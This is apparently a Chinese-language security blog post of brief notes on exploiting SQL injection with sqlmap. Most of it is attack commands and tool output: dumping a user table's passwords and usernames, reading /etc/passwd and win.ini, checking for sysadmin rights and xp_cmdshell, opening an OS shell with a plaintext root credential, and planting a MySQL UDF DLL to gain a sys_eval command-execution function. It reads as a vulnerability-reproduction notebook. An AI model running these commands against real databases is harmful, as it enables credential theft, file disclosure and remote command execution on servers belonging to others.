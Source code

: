 ```yaml
---
layout: post
title: "「SQL注入」:SQL-SHELL"
author: Bin4xin
categories:
    - blog
    - 漏洞复现
    - 笔记
    - CVE
    - Sql-Inject
permalink: /blog/2020/SQL/SHELL/
---
```



### sqlmap注入方法

```bash

sqlmap -r Desktop/uid.txt --current-user

sqlmap -r Desktop/uid.txt -D aiweb1 --tables

sqlmap -r Desktop/uid.txt -D aiweb1 -T systemUser --columns

sqlmap -r Desktop/uid.txt -D aiweb1 -T systemUser -C id,password,userName

sqlmap -r Desktop/uid.txt --file-read="/etc/passwd"

sql-shell> select load_file('/etc/passwd')

```

```bash
查看数据库信息和系统版本
sql-shell> select @@version
[14:29:22] [INFO] fetching SQL SELECT statement query output: 'select @@version'
select @@version:    'Microsoft SQL Server 2008 R2 (RTM) - 10.50.1600.1 (X64) \n\tApr  2 2010 15:48:46 \n\tCopyright (c) Microsoft Corporation\n\tStandard Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1)\n'

验证是否为sa权限
sql-shell> select IS_SRVROLEMEMBER('sysadmin')
[14:30:08] [INFO] fetching SQL SELECT statement query output: 'select IS_SRVROLEMEMBER('sysadmin')'
select IS_SRVROLEMEMBER('sysadmin'):    '1'

判断目标机的MSSQL服务是否存在`xp_cmdshell`扩展存储过程：
sql-shell> select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
[14:31:00] [INFO] fetching SQL SELECT statement query output: 'select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell''
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';:    '1'
只要返回结果不是`0`就说明存在`xp_cmdshell`扩展存储过程。
```
### 遇到问题

```bash
sql-shell> Exec master..xp_cmdshell 'whoami';
[14:32:58] [WARNING] execution of non-query SQL statements is only available when stacked queries are supported
```



### how
sqlmap -r /home/tool/sqlmap-data/wsdl-inject/net-test1.txt --batch --file-read="C:\Windows\win.ini"
```bash
[14:24:08] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2008 R2 or 7
web application technology: ASP.NET 4.0.30319, Microsoft IIS 7.5, ASP.NET
back-end DBMS: Microsoft SQL Server 2008
[14:24:08] [ERROR] none of the SQL injection techniques detected can be used to read files from the underlying file system of the back-end Microsoft SQL Server server
```

### ?os-shell?
mysql:
select password(''),concat('*',sha1(unhex(sha1(''))));
sqlmap -d "mysql://root:Hehe123456@192.168.192.120:3306/test" --os-shell





```bash
select "hex" into outfile "D:/phpStudy/MySQL/lib/plugin/udf.dll"
```

CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
